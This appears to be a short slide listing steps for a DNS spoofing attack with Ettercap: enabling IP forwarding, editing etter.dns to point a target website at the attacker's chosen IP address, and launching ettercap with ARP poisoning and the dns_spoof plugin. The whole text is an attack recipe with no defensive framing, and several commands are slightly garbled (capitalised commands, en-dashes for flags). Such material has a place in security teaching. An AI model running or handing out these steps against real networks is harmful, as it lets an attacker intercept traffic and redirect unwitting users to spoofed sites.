

# Steps
Sudo echo 1>> /proc/sys/net/ipv4/ip_forward
Locate etter.dns
Nano [path to etter.dns]
Then edit the target website to our desired IP address
Ettercap –h
Ettercap –T –q –M arp:remote –p dns_spoof //
To stop sniffing press ‘q’